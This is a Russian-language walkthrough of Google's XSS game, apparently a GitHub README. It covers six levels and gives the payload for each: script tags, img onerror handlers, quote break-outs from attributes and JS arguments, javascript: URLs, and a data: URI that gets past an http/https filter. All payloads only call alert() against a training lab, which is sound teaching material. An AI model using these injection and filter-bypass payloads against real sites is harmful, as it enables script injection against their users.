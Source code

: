 # Разбор xss-game от google

![image](https://user-images.githubusercontent.com/74491315/147869790-a0fe87aa-6f19-44d1-8578-cf6eb567ee4d.png)

## [1/6]  Level 1: Hello, world of XSS

Видим строку поиска, тыкаем, видим, что улетает GET запрос с параметром ```query```. В ответе говорится, что по моему запросу ничего не найдено. Пробуем скормить спецсимволы, видим, что они встраиваются в DOM.

Тупо скармливаем нагрузку:

```html
<script>alert()</script>
```

## [2/6]  Level 2: Persistence is key

На странице можно оставить комментарий. Пробуем загрузить картинку по несуществующему адресу и вешаем обработчик ошибок:

```html
<img src=qwe onerror=alert()>
```

## [3/6]  Level 3: That sinking feeling...

Итак, видим, что мы можем манипулировать адресом, по которому загружается картинка на страницу. Забавно, что для рендеринга имени картинки парсится ввод, а для формирования адреса нет.

```js
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
Посему, наша нагрузка будет выглядить так:
```
1337' onerror=alert() qwe='
```
С помощью кавычки выходим из контекста имени картинки, вешаем обработчик и добавляем еще один параметр, чтобы расширение картинки не ломало контекст. Получился валидный html:

```html
<img src='/static/level3/cloud1337' onerror=alert()  qwe='.jpg' />
```

## [4/6]  Level 4: Context matters

Тут есть форма, которая шлёт GET запрос с параметром ```timer```. Видим, что далее рендерится страница ```timer.html```

Видим, что мы можем манипулировать аргументом функции обработчика:

![timer](https://user-images.githubusercontent.com/74491315/147869660-e547470a-bda9-4ebe-b721-ba030938f04a.png)

Наша нагрузка будет выглядить так:

```
1');alert('
```

Опять же, выходим из контекста аргумента функции ```startTimer``` и встраиваем свой код:

```html
<img src="/static/loading.gif" onload="startTimer('1');alert('');" />
```

## [5/6]  Level 5: Breaking protocol

Переходим по ссылке для регистрирации, видим, поле для ввода ```email``` и ссылку ```Next```. Видим, что мы можем манипулировать значением ```href```:

![image](https://user-images.githubusercontent.com/74491315/147869720-2e5e9330-4c84-4d67-b9fa-ca7d6360abad.png)

Все просто, используем протокол ```javascript``` и исполняем свой код:

```
javascript:alert()
```
## [6/6]  Level 6: Follow the 🐇

Не сложно догадаться, что путь ```/static/gadget.js``` в урле неспроста. На странице говорится, что гаджет загружен из ```/static/gadget.js```. Так же мы видим регулярку, которая не дает нам скормить ссылку с протоколами ```https``` и ```http```:

```js
if (url.match(/^https?:\/\//)) {
  setInnerText(document.getElementById("log"),
  "Sorry, cannot load a URL containing \"http\".");
  return;
}
```

Ок, браузер умеет [встраивать файлы прямо в документ](https://developer.mozilla.org/ru/docs/Web/HTTP/Basics_of_HTTP/Data_URIs), чем мы и воспользуемся:

```
data:text/javascript,alert()
```

Вот и всё :)
